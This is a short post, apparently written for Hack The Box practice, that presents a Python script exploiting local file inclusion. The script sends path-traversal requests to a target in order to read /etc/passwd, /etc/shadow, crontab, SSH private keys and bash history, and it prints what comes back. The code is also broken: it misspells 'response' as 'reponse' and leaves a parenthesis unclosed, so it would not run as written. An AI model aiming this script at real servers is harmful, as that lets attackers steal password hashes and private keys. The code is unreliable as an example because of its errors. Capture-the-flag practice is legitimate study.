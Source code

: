 ### Hack The Box - LFI (Local File Inclusion)

Whilst the path can change for local file inclusion the majority of the time its the same files your interested in.

ive compiled a small list and added them to a python script that can be edited to fit the requirements.


lfi.py
'''python
import requests

host                = "test.htb"                                                    #edit this!
path_to_traverse    = "http://"+host+"/vurn.php?img=../../../../../../../../../"    #edit this!
user                = "admin"                                                       #edit this!
local_files         = [ "/etc/passwd","/etc/hosts","/etc/hostname","/etc/crontab","/etc/shadow"]
user_files          = ["/.ssh/id_rsa","/.ssh/authorized_keys","/.bash_history","/.ssh/id_dsa","/.ssh/id_ecdsa","/.ssh/id_ed25519"]

headers = {
    'Host': host,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
}

for file in local_files:
    response = requests.get(path_to_traverse+str(file),headers=headers,verify=False,)
    if reponse.text:
        print (file)
        print (response.text)
        print ("--------------------------------------------------")

for path in user_files:
    response = requests.get(path_to_traverse+"/home/"+ user + path ,headers=headers,verify=False,)
    if reponse.text:
        print ("/home/"+ user + path)
        print (response.text)
        print ("--------------------------------------------------"
'''
